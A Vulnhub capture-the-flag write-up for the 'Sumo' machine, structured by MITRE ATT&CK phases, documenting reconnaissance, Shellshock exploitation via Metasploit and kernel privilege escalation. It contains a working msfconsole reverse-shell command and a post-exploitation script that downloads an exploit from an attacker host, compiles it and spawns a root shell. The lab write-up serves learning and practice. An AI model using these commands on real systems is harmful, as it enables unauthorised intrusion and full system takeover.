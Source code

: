 # Vulnhub Writeup #5: Sumo
## MITRE Att&ck Overview
---
![](2021-10-28-01-58-47.png)
MITRE ATT&CK matrix made with [Mitre-Attack-Navigator](https://mitre-attack.github.io/attack-navigator)

## Reconnaissance
--------------------------
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Procedure
#### T1594 - Search Victim owned Websites
- Used ZAP and crawled host's port 80 HTTP server; found nothing of note.
- Gobuster
  - Didn't get 200s for pages other than index.html with Seclists Discovery Wordlists
  - After having success with Nikto, wrote a script at  [Reconnaissance](Reconnaissance) which was able to identify this folder, as well as a default "it works! file". 

   
#### T1595 - Active Scanning 
- Nikto 
  - Identified shellshock vulnerability on the target
  - Also identified a directory /cgi-bin/test, as well as a file test.sh
    - Didn't determine how to identify these files without Nikto
    - What method Nikto used to find them, but it may be related to mod_negotiate being in use on the Apache server
 #### Reconnaissance Summary
  - Nothing else was identified. Methods to identify the vulnerability appear to be
    1) Nikto
    2) Knowing that CGI is extremely vulnerable
- No other write-ups I've found have illustrated anything other than Nikto or pure deduction based on the presence of CGI to find this vector.

## Initial Access, Execution & Command and Control
--------
### Procedure
1. Scanned for shellshock vulnerabilities in MSF 
   - command ```search shellshock```.  
   - ```apache_mod_cgi_bash_env_exec```  was returned as an applicable MSF module.
3. Deliver payload via MSF

```
msfconsole -x "use exploit/multi/http apache_mod_cgi_bash_env_exec;\
set PAYLOAD payload/linux/x86/shell_reverse_tcp;\
set TARGETURI /cgi-bin/test/test.cgi;\
set RHOST 172.16.2.44;\
set LPORT 4444;\
set CVE CVE-2014-6278;\
exploit -z"
   ```


## Discovery > Collection > Exfiltration
--------
### Procedure
1. Checked running processes with ps -aux. Didn't find anything noteworthy. 
2. Checked home directory and served Apache directory /var/www/html, finding nothing 
3. Checked listening connections which didn't find anything noteworthy. 
4. Checked distro/kernel version and compared it against searchsploit, which turned up an exploit

## Privilege Escalation
--------
### Procedure
1. Identify victim's kernel version as vulnerable to LPE (source: SearchSploit)
```searchsploit ubuntu |grep 3.2.0-23 |grep -vi \< 3.2.0-23 ```

2. Compile as pwn.c and serve via http
3. Use the ```-s``` flag to run sumo_post.sh script over the ssh session  
```sessions -i 1 -s /home/kali/targetz/sumo/sumo_post.sh"```
### Notes
**sumo_post.sh**
```bash
#!/bin/bash
##### sumo_post.sh - privilege escalation script
cd /tmp
R="172.16.2.45"
wget $R/pwn.c #priv esc exploit
chmod +x pwn.c
# fix path, gcc can't see ld binary from tmp 
export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin
/usr/bin/gcc pwn.c -O2 -o vnik
./vnik 0  # results in root shell
python -c 'import pty; pty.spawn("/bin/sh")'
```


## Appendix: 
---
### Key lessons learned:
- Looking only for 200s in gobuster caused me to miss CGI-Bin dir. 
- Not enabling recursion in your automations can make enumeration a pain
- No straight lines found to discovering CGI vulnerability outside Nikto or Apache-CGI expertise
- Modify shell path early on to avoid "missing" binaries with ```export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin```
---
### Technical Issues Encountered:
GCC compliation error:
 
``` 
collect2: cannot find 'ld' when compiling in /tmp/
```

Found solution at  [stackoverflow](https://stackoverflow.com/questions/35970824/gcc-collect2-fatal-error-cannot-find-ld):

Two Options:
1) modify path
eg. export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin 

 2) copy ld binary to tmp


Obsidian Tags

#vulnhub #linux